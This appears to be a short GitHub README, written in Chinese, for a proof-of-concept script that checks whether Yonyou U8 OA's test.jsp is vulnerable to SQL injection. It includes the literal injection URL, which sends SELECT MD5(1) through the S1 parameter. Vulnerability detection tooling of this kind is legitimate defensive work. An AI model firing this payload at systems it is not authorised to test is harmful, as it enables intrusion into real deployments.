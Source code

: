 # U8detectPoc_Sql
# U8detectPoc_Sql

对于用友 U8 OA test.jsp文件存在 SQL注入漏洞,进行脚本化检测POC![image-20220929114714236](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220929114714236.png)

-h / --help使用帮助参数![image-20220929114838298](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220929114838298.png)

-u 输入url网站地址直接进行检测是否存在漏洞

poc:

```
http://target/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))

```

via:PeiQi
